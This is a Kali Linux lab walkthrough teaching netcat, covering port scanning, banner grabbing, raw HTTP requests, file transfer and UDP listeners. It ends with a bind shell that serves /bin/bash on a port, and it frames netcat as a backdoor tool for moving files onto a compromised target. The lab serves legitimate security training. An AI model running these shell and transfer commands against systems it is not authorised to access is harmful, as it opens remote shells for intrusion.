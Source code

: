 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use netcat

**Lab Purpose:**

Netcat is a utility tool which can read and write data across TCP and UDP network connections. Netcat has a huge amount of uses and is often known as a swiss army knife. It can be used as a port scanner, backdoor, port redirector, port listener and many other things. Netcat can be used to perform a total hack, all by itself.

**Lab Tool:**

Kali Linux

**Lab Topology:**

You can use a Kali Linux VM for this lab. In this lab we need another SSH-enabled machine to make connections through. You can find a prebuilt Ubuntu Server 20.04 image on [https://www.osboxes.org/ubuntu-server/](https://www.osboxes.org/ubuntu-server/) for this purpose.

![](attachements/22-1.png)

Download and import it to your virtualization platform and run.

Some netcat command features may require privileges to work. First of all, we must be the “root” user using the terminal:

sudo su –

Keep in mind that “netcat” and “nc” commands are the exact same.

**Lab Walkthrough:**

### Task 1:

We will begin by viewing the help information screen by executing the following command:

netcat -h

![](attachements/22-2.png)

We will begin by port scanning using netcat. netcat is quite slow and nmap is a far better option for port scanning, but this is just to show you netcat’s functionality. This can be done using the following command:

nc -v -w2 -z 192.168.1.123 130-140

![](attachements/22-3.png)

In this example, we started a scan of an IP address for a specific port range. As a result of the scan, we found that ports 135 and 139 are open. This target is probably a Windows machine.

### Task 2:

We can then perform banner grabbing to determine which version of a service is running. I will demonstrate this on port 22 for SSH. This can be done using the following command:

nc -v -n 139.162.196.104 22

![](attachements/22-4.png)

### Task 3:

When connecting to a web server, we can request information in the form of web requests. We can request the header from this server by using the following command when we are connected:

nc 192.168.1.206 80  
HEAD / HTTP/1.0

This will cause the webserver to respond with usefull information like server banner, content size, version, time, etc.

![](attachements/22-5.png)

To retrieve the top level page on the webserver, we can issue the following command:

nc 192.168.1.206 80  
GET / HTTP/1.0

![](attachements/22-6.png)

### Task 4:

We can also transfer files between two nodes using netcat. This is very handy when interacting with a server through the command line. In this example, we will assume we want to transfer a file to a target which we have remote command execution of. We will begin by setting up a listener on the target host and then connecting to it from the attack box.

nc -vnlp 8080 > received.file

This opens a listener on the target on port 8080. We will then connect to it on the attack box and transfer the file.

nc 192.168.1.206 8080 < tobe-send.txt

We can end the connection as the file has now transferred.

![](attachements/22-7.png)

![](attachements/22-8.png)

With this method, it is possible to transfer large files as well with the help of compression tools.

### Task 5:

We can open a UDP server using netcat too, using the following command:

netcat -ul -p 7000

Connect to listener side with this command;

nc -uv 192.168.1.206 7000

### Task 6:

Netcat can also be used to create a basic shell on a remote system on a port. This can be done by executing this command:

netcat -l -p 7777 -e /bin/bash

This will start a server on port 7777 and will pass all incoming input to bash command and the results will be sent back. This will basically convert the bash program into a server. Netcat can be used to convert any process into a server. We can connect to this bash shell using the following command:

netcat 139.162.196.104 7777